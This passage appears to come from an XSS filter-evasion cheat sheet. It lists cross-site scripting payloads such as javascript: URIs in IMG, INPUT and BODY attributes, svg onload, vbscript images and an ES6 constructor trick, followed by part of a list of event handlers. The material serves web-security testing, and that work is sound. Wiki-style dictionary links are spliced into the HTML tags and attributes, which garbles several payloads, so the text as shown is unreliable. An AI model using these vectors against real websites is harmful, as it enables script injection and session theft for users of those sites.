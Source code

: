 #### End Title Tag¶
This is a simple [[_content/dictionary#X|XSS]] vector that closes <[[_content/dictionary#T|TITLE]]> tags, which can encapsulate the malicious cross site scripting attack:
</TITLE><[[_content/dictionary#S|SCRIPT]]>alert("XSS");</SCRIPT>

##### [[_content/dictionary#I|INPUT]] Image¶
<INPUT [[_content/dictionary#T|TYPE]]="[[_content/dictionary#I|IMAGE]]" [[_content/dictionary#S|SRC]]="javascript:alert('[[_content/dictionary#X|XSS]]');">

##### [[_content/dictionary#B|BODY]] Image¶
<BODY [[_content/dictionary#B|BACKGROUND]]="javascript:alert('[[_content/dictionary#X|XSS]]')">

##### [[_content/dictionary#I|IMG]] Dynsrc¶
<IMG [[_content/dictionary#D|DYNSRC]]="javascript:alert('[[_content/dictionary#X|XSS]]')">

##### [[_content/dictionary#I|IMG]] Lowsrc¶
<IMG [[_content/dictionary#L|LOWSRC]]="javascript:alert('[[_content/dictionary#X|XSS]]')">

#### List-style-image¶
This esoteric attack focuses on embedding images for bulleted lists. It will only work in the IE rendering engine because of the [[_content/dictionary#J|JavaScript]] directive. Not a particularly useful [[_content/dictionary#X|XSS]] vector:
<[[_content/dictionary#S|STYLE]]>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><[[_content/dictionary#U|UL]]><[[_content/dictionary#L|LI]]>XSS</br>

#### VBscript in an Image¶
<[[_content/dictionary#I|IMG]] [[_content/dictionary#S|SRC]]='vbscript:msgbox("[[_content/dictionary#X|XSS]]")'>

#### [[_content/dictionary#S|SVG]] Object Tag¶
<svg/onload=alert('[[_content/dictionary#X|XSS]]')>

#### ECMAScript 6¶
Set.constructor`alert\x28document.domain\x29

#### [[_content/dictionary#B|BODY]] Tag¶
This attack doesn't require using any variants of javascript: or <[[_content/dictionary#S|SCRIPT]]... to accomplish the [[_content/dictionary#X|XSS]] attack. Dan Crowley has noted that you can put a space before the equals sign (onload= != onload =):
<BODY [[_content/dictionary#O|ONLOAD]]=alert('XSS')>

##### Attacks Using Event Handlers¶
The attack with the [[_content/dictionary#B|BODY]] tag can be modified for use in similar [[_content/dictionary#X|XSS]] attacks to the one above (this is the most comprehensive list on the net, at the time of this writing). Thanks to Rene Ledosquet for the [[_content/dictionary#H|HTML]]+[[_content/dictionary#T|TIME]] updates.
The [Dottoro Web Reference](http://help.dottoro.com/) also has a nice [list of events in [[_content/dictionary#J|JavaScript]]](http://help.dottoro.com/ljfvvdnm.php).

- onAbort() (when user aborts the loading of an image)
- onActivate() (when object is set as the active element)
- onAfterPrint() (activates after user prints or previews print job)
- onAfterUpdate() (activates on data object after updating data in the source object)
- onBeforeActivate() (fires before the object is set as the active element)
- onBeforeCopy() (attacker executes the attack string right before a selection is copied to the clipboard - attackers can do this with the execCommand("Copy") function)
- onBeforeCut() (attacker executes the attack string right before a selection is cut)
- onBeforeDeactivate() (fires right after the activeElement is changed from the current object)
- onBeforeEditFocus() (Fires before an object contained in an editable element enters a [[_content/dictionary#U|UI]]-activated state or when an editable container object is control selected)
- onBeforePaste() (user needs to be tricked into pasting or be forced into it using the execCommand("Paste") function)